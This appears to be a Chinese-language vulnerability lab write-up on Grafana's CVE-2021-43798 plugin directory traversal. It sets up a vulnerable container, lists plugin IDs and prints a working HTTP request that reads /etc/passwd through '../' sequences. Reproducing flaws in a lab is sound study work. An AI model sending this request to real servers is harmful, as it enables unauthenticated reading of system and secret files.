

Grafana 8.x 插件模块目录穿越漏洞（CVE-2021-43798）¶
Grafana是一个开源的度量分析与可视化套件。在2021年12月，推特用户@j0v 发表了他发现的一个0day，攻击者利用这个漏洞可以读取服务器上的任意文件。
参考链接：
- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw
漏洞环境¶
执行如下命令启动一个Grafana 8.2.6版本服务器：
docker compose up -d
服务启动后，访问http://your-ip:3000即可查看登录页面，但是这个漏洞是无需用户权限的。
漏洞复现¶
这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用../的方式穿越目录，读取到服务器上的任意文件。
利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
再发送如下数据包，读取任意文件（你也可以将其中的alertlist换成其他合法的插件id）：
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
